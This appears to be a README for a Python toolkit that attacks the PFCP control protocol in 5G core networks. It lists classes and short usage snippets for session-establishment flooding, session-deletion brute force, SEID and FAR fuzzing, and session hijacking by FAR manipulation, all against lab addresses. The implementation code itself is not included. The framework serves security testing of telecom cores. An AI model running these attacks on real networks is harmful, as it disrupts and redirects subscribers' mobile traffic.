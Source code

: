 # PFCP Toolkit and Attack Framework

This project provides a set of tools and classes to interact with the PFCP (Packet Forwarding Control Protocol) in 5G core networks. It includes utilities for building and sending PFCP messages, as well as performing various attacks such as DoS, fuzzing, and hijacking.

## Table of Contents
- Overview
- Installation
- Classes and Methods
  - PFCPToolkit
  - PFCPDosAttack
  - PFCPFuzzer
  - PFCPHijack
- Examples
  - PFCP Association Setup
  - PFCP Session Establishment Flood
  - PFCP SEID Fuzzing
  - PFCP Hijack by FAR Manipulation

---

## Overview

This framework is designed for testing and simulating PFCP interactions in a 5G core network. It includes:
- **PFCPToolkit**: A utility class for building and sending PFCP messages.
- **PFCPDosAttack**: A class for performing DoS attacks using PFCP messages.
- **PFCPFuzzer**: A class for fuzzing PFCP parameters like SEIDs and FARs.
- **PFCPHijack**: A class for hijacking PFCP sessions by manipulating FARs.


---

## Classes and Methods

### PFCPToolkit

The `PFCPToolkit` class provides utilities for building and sending PFCP messages.

#### Features
- Build and send PFCP Association Setup Requests
- Build and send PFCP Session Establishment Requests
- Build and send PFCP Session Modification Requests (FAR updates)
- Build and send PFCP Session Deletion Requests
- Random SEID, TEID, Sequence support
- Logging, parameter handling, and verbose output

#### Methods
- `Build_PFCP_association_setup_req(...)`
- `Build_PFCP_session_establishment_req(...)`
- `Build_PFCP_session_modification_req(...)`
- `Build_PFCP_session_deletion_req(...)`
- `Send_PFCP_association_setup_req(...)`
- `Send_PFCP_session_establishment_req(...)`
- `Send_PFCP_session_modification_req(...)`
- `Send_PFCP_session_deletion_req(...)`
- `Random_create_far()`
- `Update_FAR(...)`

> See the class source file `pfcpToolkit.py` for full implementation and parameter details.

### PFCPDosAttack

Used to perform denial of service (DoS) attacks on a target PFCP-enabled node.

#### Methods
- `Start_pfcp_session_establishment_flood(...)`
- `Start_pfcp_session_deletion_bruteforce(...)`
- `Start_pfcp_session_deletion_targeted(...)`

### PFCPFuzzer

Used to discover valid session and FAR identifiers via fuzzing.

#### Methods
- `Start_PFCP_SEID_fuzzing(...)`
- `Start_PFCP_FARID_fuzzing(...)`

### PFCPHijack

Used to hijack PFCP sessions by modifying their FARs.

#### Methods
- `Start_PFCP_hijack_far_manipulation(...)`

---

## Examples

### PFCP Association Setup
```python
from pfcpToolkit import PFCPToolkit

toolkit = PFCPToolkit(src_addr="10.100.200.66", dest_addr="10.100.200.2", verbose=True)
toolkit.Send_PFCP_association_setup_req()
```

### PFCP Session Establishment Flood
```python
from pfcpDosAttack import PFCPDosAttack

dos = PFCPDosAttack(src_addr="10.100.200.66", dest_addr="10.100.200.2", verbose=True)
dos.Start_pfcp_session_establishment_flood(reqNbr=100, num_threads=5)
```

### PFCP SEID Fuzzing
```python
from pfcpFuzzer import PFCPFuzzer

fuzzer = PFCPFuzzer()
fuzzer.set_verbose(True)
fuzzer.Start_PFCP_SEID_fuzzing(
    upf_addr="10.100.200.2",
    src_addr="10.100.200.66",
    max_seid=1000,
    max_far_discover=10
)
```

### PFCP Hijack by FAR Manipulation
```python
from pfcpHijack import PFCPHijack

hijack = PFCPHijack()
hijack.set_verbose(True)
hijack.Start_PFCP_hijack_far_manipulation(
    hijacker_addr="10.100.200.66",
    upf_addr="10.100.200.2",
    seid=0xC0FFEE
)
```

---

## Notes
- Ensure you are running these scripts in a controlled environment for testing purposes only.
- Modify the IP addresses and ports as per your network setup.
- Use the `verbose=True` flag to enable detailed logging for debugging.

---

## License
This project is licensed under the MIT License. See the `LICENSE` file for details.

